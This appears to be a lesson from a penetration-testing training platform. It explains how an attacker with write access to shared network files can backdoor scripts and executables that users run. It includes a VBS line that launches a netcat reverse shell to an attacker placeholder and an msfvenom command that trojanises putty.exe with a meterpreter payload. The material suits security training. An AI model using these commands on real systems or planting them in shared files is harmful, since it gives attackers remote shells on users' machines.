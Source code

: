 
# Abusing User Behavior
---

Under certain circumstances, an attacker can take advantage of actions performed by users to gain further access to machines in the network. While there are many ways this can happen, we will look at some of the most common ones.


## Abusing Writable Shares

It is quite common to find network shares that legitimate users use to perform day-to-day tasks when checking corporate environments. If those shares are writable for some reason, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines.

One common scenario consists of finding a shortcut to a script or executable file hosted on a network share.

![PuTTY lnk file](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/70e361f2a43b498e5d487d0394bd0a87.png)  

The rationale behind this is that the administrator can maintain an executable on a network share, and users can execute it without copying or installing the application to each user's machine. If we, as attackers, have write permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.

Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its `%temp%` folder and executed on the workstation. Therefore any payload will run in the context of the final user's workstation (and logged-in user account).

### Backdooring .vbs Scripts

As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:

```shell-session
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

This will copy nc64.exe from the share to the user's workstation `%tmp%` directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

  
### Backdooring .exe Files

If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```
